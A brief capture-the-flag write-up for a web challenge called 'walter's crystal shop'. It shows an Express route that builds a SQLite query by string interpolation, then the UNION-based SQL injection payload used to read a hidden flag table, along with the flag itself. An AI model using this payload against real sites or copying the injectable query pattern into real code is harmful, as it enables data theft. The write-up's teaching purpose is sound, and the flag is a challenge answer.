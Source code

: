 # walter's crystal shop
> My buddy Walter is selling some crystals, check out his shop!

## About the Challenge
We were given a website and source code (You can download the source code [here](walters_crystal_shop.zip)). There's only 1 functionality where we can search some crstal

![preview](images/preview.png)

## How to Solve?
If we look at the source code, this website was vulnerable to SQL injection (SQLite)

```javascript
app.get("/crystals", (req, res) => {
  const { name } = req.query;

  if (!name) {
    return res.status(400).send({ err: "Missing required fields" });
  }

  db.all(`SELECT * FROM crystals WHERE name LIKE '%${name}%'`, (err, rows) => {
    if (err) {
      console.error(err.message);
      return res.status(500).send('Internal server error');
    }

    return res.send(rows);
  });
});
```

And because the flag was located in a table called `flag`. To obtain the flag we need to input this payload

```
' union select (select * from flag),2,3-- -
```

![Flag](images/flag.png)

```
nbctf{h0p3fuLLy_7h3_D3A_d035n7_kn0w_ab0ut_th3_0th3r_cRyst4l5}
```